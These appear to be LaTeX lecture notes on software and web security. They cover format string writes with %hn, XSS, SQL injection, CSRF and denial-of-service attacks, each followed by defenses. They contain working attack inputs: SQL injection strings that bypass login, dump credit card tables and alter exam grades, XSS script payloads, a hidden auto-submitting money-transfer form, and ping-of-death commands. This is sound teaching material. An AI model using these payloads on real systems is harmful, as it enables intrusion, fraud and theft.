\paragraph{The vulnerability so far} $\underbrace{\backslash xcc \backslash xf6 \backslash xff \backslash xbf}_{\substack{\text{the address of the}\\\text{memory cell}\\\text{we want to modify}}}
\%\underbrace{6024}_{\substack{\text{value we want}\\-4\text{(address)}}}c
\underbrace{8}_{\substack{\text{offset on the stack}\\\text{of the target address}\\\text{found using \%x to read)}}}\$n$
\paragraph{Writing big numbers} we usually want to write a valid 32 bit address ad an arbitrary number. This could require a super long padding string (up to 4GB). To reduce the size written, we can split it in 2 16-bit words. \\
Because using \%c we can only increase, and we must perform the writing twice \underline{in the same string} (as we can only pass one string), we need to do some math:
\begin{enumerate}
\item Word with lower \underline{absolute value}
\item Word with higher \underline{absolute value}
\end{enumerate}
\paragraph{New vulnerable string 1:} use case: 0x\color{red}4545\color{blue}4040 \color{black}(\color{red}first half \color{black} $>$ \color{blue} second half\color{black})\\
\begin{adjustwidth}{-3cm}{-3cm}
\centering
$\underbrace{
	\color{green}<\text{tgt}>
	<\text{tgt+2}>
}_{\substack{\text{target addresses placed}\\\text{ on the stack to be read}\\\text{as argument of \%\dots n}\\\text{(bytes in reverse order)}}}
\overbrace{
	\color{black}\%
	\underbrace{
		\color{blue} <\text{low}\_\text{val}-\text{\#printed}>
	}_{
		\color{blue} 0\text{x}4040 - 8\color{black}
	}
	\color{black} c
}^{
	\substack{
		\text{use padding to write }\\
		\text{the desired number of chars}
	}
}
\overbrace{
	\%
	\underbrace{
		\color{blue} <\text{stack}\_
		\text{offset}>
	}_{\text{point to \color{red}}<
	\text{address}>}
	\color{black} \$hn
}^{
	\text{write to }<\text{address}>\text{ using \%hn}
}
\overbrace{
	\color{black} \% 
	\underbrace{
		\color{red} <\text{high}\_\text{val}-\text{low}\_\text{val}>
	}_{
		\color{red} 0\text{x}4545-\text{x}4040
	} 
	\color{black} c
}^{
	\substack{
		\text{use padding to write }\\
		\text{the desired number of chars}
	}
}
\overbrace{
	\color{black} \%
	\underbrace{
		\color{red} <\text{stack}\_\text{offset+1}>
	}_{
		\text{point to}<\text{address+2}>
	}
	\color{black} \$n
}^{
	\text{write to}<\text{address+2 using \%hn}>
}
$
\end{adjustwidth}
\paragraph{New vulnerable string 2:} use case: 0x\color{blue}4040\color{red}4545 \color{black}(\color{blue}first half \color{black} $<$ \color{red} second half\color{black})\\
\begin{adjustwidth}{-3cm}{-3cm}
\centering
$\underbrace{
	\color{green}<\text{tgt+2}>
	<\text{tgt}>
}_{\substack{\text{target addresses placed}\\\text{ on the stack to be read}\\\text{as argument of \%\dots n}\\\text{(bytes in reverse order)}}}
\overbrace{
	\color{black}\%
	\underbrace{
		\color{blue} <\text{low}\_\text{val}-\text{\#printed}>
	}_{
		\color{blue} 0\text{x}4040 - 8\color{black}
	}
	\color{black} c
}^{
	\substack{
		\text{use padding to write }\\
		\text{the desired number of chars}
	}
}
\overbrace{
	\%
	\underbrace{
		\color{blue} <\text{stack}\_
		\text{offset}>
	}_{\text{point to \color{red}}<
	\text{address}>}
	\color{black} \$hn
}^{
	\text{write to }<\text{address}>\text{ using \%hn}
}
\overbrace{
	\color{black} \% 
	\underbrace{
		\color{red} <\text{high}\_\text{val}-\text{low}\_\text{val}>
	}_{
		\color{red} 0\text{x}4545-\text{x}4040
	} 
	\color{black} c
}^{
	\substack{
		\text{use padding to write }\\
		\text{the desired number of chars}
	}
}
\overbrace{
	\color{black} \%
	\underbrace{
		\color{red} <\text{stack}\_\text{offset+1}>
	}_{
		\text{point to}<\text{address+2}>
	}
	\color{black} \$n
}^{
	\text{write to}<\text{address+2 using \%hn}>
}
$
\end{adjustwidth}
\subsection{Generalization} print functions are not the only functions affected by the problem. All functions with the following properties are vulnerable:
\begin{itemize}
\item Are \underline{variadic functions}: have a variable number of parameters resolved at runtime from the stack
\item Have a mechanis to read/write arbitrary locations
\item The user can control them
\end{itemize}
\subsection{Defending agains Format String bugs}
\begin{itemize}
\item Most of the defenses explained in \ref{sec:defending buffer overflow}
\item The vulnerable functions may be patched, for example by specifying the expected number of parameters
\item Warnings from compilers
\end{itemize}

\section{Web application security}
\subsection{Introduction}
\paragraph{Client is never trustworthy} any client may be an attacker, so we need to filter carefully what it sends us
\paragraph{Filtering is hard} 
\subsection{Filtering} can be done is 3 ways
\begin{description}
\item[Whitelisting] only allow what you expect
\item[Blacklisting] Discard bad stuff
\item[Escaping] Transform special/dangerous characters into something less dangerous
\end{description}
\subsection{Cross site scripting (XSS)}
\paragraph{XSS} client-side code is injected into the web page; for example posting the following comment:
\begin{lstlisting}[language=JavaScript]
<script>
	alert('Javascript code executed!');
</script>
\end{lstlisting}
The alert will appear when the comment is loaded.
\subsubsection{Types of XSS:}
\begin{description}
\item[Stored XSS] The attacker input is stored on the target server into a database (for example a blog comment). The victim retrieves the stored code without the data been made safe to render.
\item[Reflected XSS] 
The following script is present in the vulnerable page:
\begin{lstlisting}[language=JavaScript]
url = url.searchParams.get('variable');
request = new XMLHttpRequest();
request.open('GET', url, true);
request.send(null);
//...
\end{lstlisting}
The attacker sends the victim (in an email, embedded in another website) the following link:\\
\url{example.com/?variable=$<$script$>$alert('pawned!')$<$/script$>$}
\item[Dom-based XSS] Vulnerable script on the site:
\begin{lstlisting}[language=JavaScript]
document.write('<b>Current URL: </b>'+document.baseURI);
\end{lstlisting}
Malicious URL:\\
\url{example.com/#<script>alert('pwned')</script>}
\end{description}
\subsubsection{What XSS can do:}
\begin{itemize}
\item Cookie theft
\item Session hijack
\item Session manipulation
\item Execution of a fraudolent transaction
\item Snooping private information
\item Drive by download (make the user download malicious programs without wanting/knowing)
\item Bypass same-origin policy
\end{itemize}
\paragraph{Same Origin Policy} all client-side code fro origin \textbf{A} should only be able to access data from \textbf{A}
\subparagraph{Has issues with browser extensions and CORS (literal exceptions to SOP)}
\subsubsection{Content Security Policy}
\paragraph{CSP:} a W3C specification to inform the browser on what to trust and what not, sent from the server to the client in an header:\\
Content-Security-Policy: script-src 'self' http://myurl.it
\subparagraph{(some) available directives}
\begin{description}
\item[script-src] load client code only from listed origins
\item[form-action] only listed endpoints are valid to submit data to
\item[frame-ancestors] lists other sources allowed to embed the currend page in them (into frames or applets)
\item[img-src] list of origins from which images can be loaded
\item[style-src] load css only from listed origins
\end{description}
\subparagraph{Issues}
\begin{itemize}
\item Must be very strict to work
\item Must be written (mostly) manually
\item Must be kept up to date
\item Can have issues with browser extensions
\end{itemize}

\subsection{SQL injection}
\subsubsection{Breaking authentication}
Say we have the following code, server side:
\begin{lstlisting}[language=Java]
public void login(String username, String password){
	SqlCommand cmd= new SqlCommand(String.Format(
		"SELECT * FROM Users
		WHERE username='{0}' AND password='{1}';",
		username, password);
	SqlDataReader reader = cmd.ExecuteReader();
	if(reader.HasRows()){
		grantAuthentication();
	}else{
		rejectAuthentication();
	}
}
\end{lstlisting}
The expected behaviour whould be for example the user inserting username="matteosecco" and password="s3cre3t!", which would result in the following query:
\begin{lstlisting}[language=SQL, showspaces=false]
SELECT * FROM Users
WHERE username='matteosecco' AND password='s3cr3t!';
\end{lstlisting}
Instead, an attacker could type "matteosecco';--" as username and anything (say "lol") as password. As "--" is a comment in sql, the resulting query would be:
\begin{lstlisting}[language=SQL]
SELECT * FROM Users
WHERE username='matteosecco';--' AND password='lol';
\end{lstlisting}
Allowing the attacker to login even without knowing the password! \\
But it can be even worse: the attacker may use "' OR '1'='1';--" as password, effectively bypassing the username too:
\begin{lstlisting}[language=SQL]
SELECT * FROM Users
WHERE username='' OR '1'='1';--' AND password='lol'
\end{lstlisting}

\subsubsection{Loading data from other tables}
Suppose the server somewhere returns the result of the following query, where the string is a user parameter:
\begin{lstlisting}[language=SQL]
SELECT name, phone, address FROM Users
WHERE Id='userinput';
\end{lstlisting}
An attacker could obviously do
\begin{lstlisting}[language=SQL]
SELECT name, phone, address FROM Users
WHERE Id='' OR '1'='1';--';
\end{lstlisting}
To retrieve the data of all Users. But a more interesting injection allows to load the content of other tables: say the input is "' UNION ALL SELECT name, creditCardNumber, CCV2 from CreditCardTable;--". The resulting query would be:
\begin{lstlisting}[language=SQL]
SELECT name, phone, address FROM Users
WHERE Id='' UNION ALL SELECT name, creditCardNumber, CCV2 from CreditCardTable;--';
\end{lstlisting}
And it would result in returning all the credit card infos stored! (assuming the union works $\rightarrow$ the column names/forats are compatible

\subsubsection{Manipulating INSERTs}
Assume we have the following schema to track exam results:
\begin{lstlisting}[language=SQL]
CREATE TABLE users (
	id INTEGER PRIMARY KEY,
	user VARCHAR(128),
	password VARCHAR(128),
	result VARCHAR
);

CREATE TABLE results (
	id INTEGER PRIMARY KEY,
	username VARCHAR(128),
	grade VARCHAR
);
\end{lstlisting}
And a single query in the server allowing to give 18 to a custom user (having the username as a parameter):
\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', '18');	
\end{lstlisting}
I could easly get 30L by inserting "matteosecco', '30L'),--":
\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', '30L');--', '18');	
\end{lstlisting}
I could also give 30L to a friend of mine:
\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', '30L'),(NULL, 'gianlucaguidotti','30L');--', '18');	
\end{lstlisting}
Or I could use it to gain access to privileged data (assuming I have some way to read the data I'm inserting):

\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', (SELECT password from USERS where user='admin')),--', '18');	
\end{lstlisting}
\subsubsection{Blind queries} Some queries, such as a login one, do not display the result to the user. We can infer the result, or some of its properties, by the resulting behaviour.
\subsubsection{Defending}
\paragraph{Input sanitization} validation and filtering of the user input
\paragraph{Prepared statements} used instead of built query strings, use variable placeholders instead of concatenation and can effectively check the variable format
\paragraph{Not using table names as field names} it causes information leakage!
\paragraph{Limit query privileges} only allow some users to execute some queries

\subsection{Cookies}
%TODO
Well, already know them

\subsection{Cross-Site Request Forgery}
Make the victim's client execute unwanted actions on another platform it is currently authenticated into.\\
Bank page:
\begin{lstlisting}[language=HTML]
<form method="POST" action="/transfer.php">
	<h3>Transfer money</h3>
	Recipient: <input type="text" id="user" name="to">
	Amount: <input type="number" id="amount" name="amnt">
	<button type="submit">Confirm</button>
</form>
\end{lstlisting}
Malicious site:
\begin{lstlisting}[language=HTML]
<form action="https://bank.com/transfer.php" id="evil" style="display: none;" method="POST">
	<input type="hidden" value="50000" name="amnt">
	<input type="hidden" value="matteo.secco" name="to">
	<input type="submit">
</form>
<script>document.evil.submit();</script>
\end{lstlisting}
\subsubsection{Defending}
\paragraph{CSRF Token}
\subparagraph{Properties}
\begin{itemize}
\item Random challenge token
\item Unique per user session
\item Regenerated for each request
\item Sent to server for validation
\item \underline{Not stored in cookies} (added to the HTML page for example)
\end{itemize}
\paragraph{Same Site Cookies}
Don't sendd any session cookies with requests originating from different websites. Specified by setting a cookie:
\begin{description}
\item[SameSite=strict] Don't send cookies for \underline{any} cross-site usage
\item[SameSite=lax] sent cookies for navigation only (prevent for POSTs, images, frames...)
\end{description}

\section{Network protocol attacks}
\subsection{Denial of Service} 
\paragraph{Goal:} make the service unavailable to legitimate users
\subsubsection{Killer packets} send specific packets to a machine to make it crash/keep it busy
\paragraph{Ping of death} Specific ICMP echo request which exploits a memory error in the protocol implementation:
\begin{lstlisting}[language=bash]
#From windows
ping -I 65527 192.168.1.15
#From linux
ping -s 65527 192.168.1.15
\end{lstlisting}
\paragraph{Teardrop}
Exploit vulnerabilities in the TCP reassembly (putting packages toghether). While reassembling packages with overlapping offsets, the kernel may freeze/crash
\paragraph{Land attack} Packets having
\begin{itemize}
\item src IP==dst IP
\item SYN=1
\end{itemize}
could loop forever and lock a TCP/IP stack. First found on Windows 95, Windows XP still vulnerable. 
\subsubsection{SYN flooding}
SYN packets are the first ones of a TCP handshake. In order for the handshake to work, the sender must be stored in memory until the handshake is completed (or for a given amount of time).\\
However, the IP src can be arbitrarly changed from an attacker!\\
So an attacker can send a lot of SYN packets from (virtually) different sources (\textbf{spoofed source addresses}), filling the buffer to store received SYNs, and preventing the server from accepting legit SYN requests
\paragraph{Defending: SYN cookies} Do not store SYNs in memory. Use a challenge-response mechanism to verify the connection.
\subsection{Distributed DoS}
\subsubsection{Botnets} Complex attack executed in multiple steps:
\begin{itemize}
\item Infect a lot of computers and gain controls over them (they become bots)
\item Install a Command\&Control infrastructure on them in order to be able to command them
\item When the time comes, control the bots to issue the malicious attack (spam, phishing, ping of death)...
\end{itemize}
\subsubsection{Smurf}
\paragraph{ICMP} communication protocol to send status messages (connection failed, service not available...)
\paragraph{SMURF} send an ICMP request having src IP spoofed to match the victim's address. The victim will be flooded with ICMP responses.

\subsection{Network level Sniffing}

\subsection{Network level Spoofing}
\end{document}